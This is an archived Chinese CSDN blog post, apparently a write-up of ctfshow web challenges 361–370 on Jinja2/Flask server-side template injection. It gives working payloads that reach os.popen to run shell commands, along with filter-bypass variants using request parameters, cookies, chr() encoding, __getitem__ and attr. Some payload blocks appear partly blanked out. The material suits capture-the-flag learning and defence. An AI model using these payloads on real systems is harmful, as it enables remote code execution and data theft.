





<!--yml
category: 未分类
date: 2022-04-26 14:22:08
-->

# ctf show-web入门 SSTI篇部分题解_z.volcano的博客-CSDN博客_ctfshow web入门ssti

> 来源：[https://blog.csdn.net/weixin_45696568/article/details/113625650](https://blog.csdn.net/weixin_45696568/article/details/113625650)

# SSTI

ssti模板注入基本原理推荐看[这篇文章](https://xz.aliyun.com/t/3679)，这个师傅写的很详细，小白也很容易看懂。

## web361

这个hackbar挺好用的，有现成模板，当前目录只有一个app.py，我们看一下上级目录


```
?name={{ config.__class__.__init__.__globals__['os'].popen('ls ../').read() }} 
```



看到了flag，`cat ../flag`即可

```
?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }} 
```

## web362

这题说开始过滤了，但是不知道过滤了什么，而且用web361的payload就可以直接过。。。

## web363

过滤了`引号`

### request.args传参绕过

这里参考了[大佬的文章](https://xz.aliyun.com/t/6885)。

假设传入`{{ config.__class__.__init__.__globals__['os'] }}`,因为引号被过滤，所以无法执行，可以把`'os'`换成`request.args.a`(这里的a可以理解为自定义的变量，名字可以任意设置)

随后在后面传入a的值，变成`{{ config.__class__.__init__.__globals__[request.args.a] }}&a=os`，与原命令**等效**

**Payload:**
比如我们要构造`?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }}`，但是引号不能使用了，就可以把这两处使用引号的地方替换掉，最终变成
`?name={{ config.__class__.__init__.__globals__[request.args.a].popen(request.args.b).read() }}&a=os&b=cat ../flag`

## web364

过滤了`引号和args`,上题的姿势不能用了，但是可以用`chr()函数`绕过。

### chr()绕过

可以用这个payload判断**chr()函数的位置**：
`{{().__class__.__bases__[0].__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}}`

用burp抓包爆破

可见爆破出来很多，可以任选一个，我选的是80

这个爆破结果意味着`__subclasses__()[80]`中含有chr的类索引，即可以使用`chr()`

接下来把这一串``放到前面

原始payload是`{{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read() }}`，接下来要用chr()进行替换，对照ascii表

```
'os'替换成chr(111)%2bchr(115)
'cat ../f*'替换成chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103) 
```

再把替换后的payload放在后面，两段拼在一起得到最终姿势

```
?name={{ config.__class__.__init__.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read() }} 
```

## web365

比上题又多过滤了一个`中括号`

### 中括号绕过

可以用`__getitem__`和`pop`代替，**因为pop会破坏数组的结构**，所以更推荐用`__getitem__`

观察上题的payload，一共有四处中括号

```
第一处的[]直接换成()即可
第二处的[0]换成.__getitem__(0)或者直接删去
第三处的[80]换成.__getitem__(80)
第四处的[chr(111)%2bchr(115)]换成.__getitem__(chr(111)%2bchr(115)) 
```

最终payload:

```
?name={{ config.__class__.__init__.__globals__.__getitem__(chr(111)%2bchr(115)).popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read() }} 
```

## web366

多过滤了一个`_`,这里参考的羽师傅的[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)，不得不说，师傅们姿势是真的多。

### attr获取变量

```
""|attr("__class__")
相当于
"".__class__ 
```

### request.cookies传参

用法和request.args基本相同

这两个配合使用，payload:

```
?name={{(abc|attr(request.cookies.a)|attr(request.cookies.b)|attr(request.cookies.c))(request.cookies.d).eval(request.cookies.e)}} 
```

```
Cookie:a=__init__;b=__globals__;c=__getitem__;d=__builtins__;e=__import__('os').popen('cat /flag').read() 
```



## web367

姿势同web66

## web368

测试发现`{{`被过滤,使用``绕过,再借助`print()`回显

payload:

```
?name=

Cookie:a=__init__;b=__globals__;c=__getitem__;d=__builtins__;e=__import__('os').popen('cat /flag').read() 
```

## web369(过滤request)

request被禁用，前面的姿势肯定是用不了了。

这里直接用羽师傅的payload:

```
?name=








{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
 
```

这里的原理是，给不同的变量赋值，然后拼接成我们想要的命令，原理参考羽师傅的[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)。

下面逐行分析

```
构造po="pop"     


等效于a=(()|select|string|list).pop(24),即a等价于下划线_


构造ini="___init__"


构造glo="__globals__"


构造geti="__getitem__"


构造built="__builtins__"


调用chr()函数



构造file='/flag'
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%} 
```

## web370

简单测试可知，这题又把数字也过滤了，那就想办法构造出数字。

还是参考羽师傅的：

```
?name=

















{% set file=chr((cccc~ccccccc)|int)%2bchr((cccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccc)|int)%}
 
```

分析如下

```
几个c就代表几，比如c=1,ccc=3








用~拼接    构造coun=24

同web169






调用chr()函数


构造file="/flag"
{% set file=chr((cccc~ccccccc)|int)%2bchr((cccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccc)|int)%} 
```

参考文章:
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)
[Python模板注入(SSTI)深入学习](https://xz.aliyun.com/t/6885)